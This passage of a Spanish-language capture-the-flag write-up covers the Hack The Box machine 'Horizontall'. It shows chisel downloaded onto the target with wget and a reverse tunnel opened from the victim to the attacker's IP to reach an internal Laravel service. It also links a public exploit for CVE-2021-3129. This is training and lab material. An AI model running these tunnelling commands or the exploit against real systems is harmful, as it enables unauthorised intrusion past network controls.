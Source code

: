 Utilizo Python para hacer un simple http server, y procedo a descargar chisel en la maquina

<img title="" src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/25.png" alt="" width="605">

Procedo a descargar con `wget` 

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/26.png)

Le damos permiso de ejecucion `chmod +x chisel` 

Bien, ahora estamos listo para hacer el Portforward, dejo dos articulos interesantes sobre esto

[Chisel Port Forward](https://www.sevenlayers.com/index.php/332-chisel-port-forward)

[Tunneling with Chisel and SSF | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

En nuestra maquina dejamos a Chisel en escucha de la siguiente forma:

`chisel server -p 8081 --reverse`

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/27.png)

En el lado de la victima (client): 

`./chisel client 10.10.14.142:8081 R:8001:127.0.0.1:8000` 

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/28.png)

Confirmamos de nuestro lado : 

<img src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/29.png" title="" alt="" width="714">

Bien, vamos a ver si esto funciona....

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/30.png)

It's works!. Laravel tiene muchisimos exploits, por suerte tenemos una version en la misma pagina, abajo a la derecha.

<img title="" src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/31.png" alt="" width="372" data-align="center">

Googleando un poco nos topamos con este repo que contiene el PoC + el exploit: 

[GitHub - nth347/CVE-2021-3129_exploit: Exploit for CVE-2021-3129](https://github.com/nth347/CVE-2021-3129_exploit)

Siguiendo las instruccion del PoC es facil la explotacion (favor leer que hay que tener un setup de un Lab)



Nota: Si tienen algun problema con `Composer` favor actualizar las siguientes librerias y la extension xml de php :

`sudo apt install libpcre2-16-0 libpcre2-8-0 libpcre2-32-0` 

`sudo apt install php-xml` 
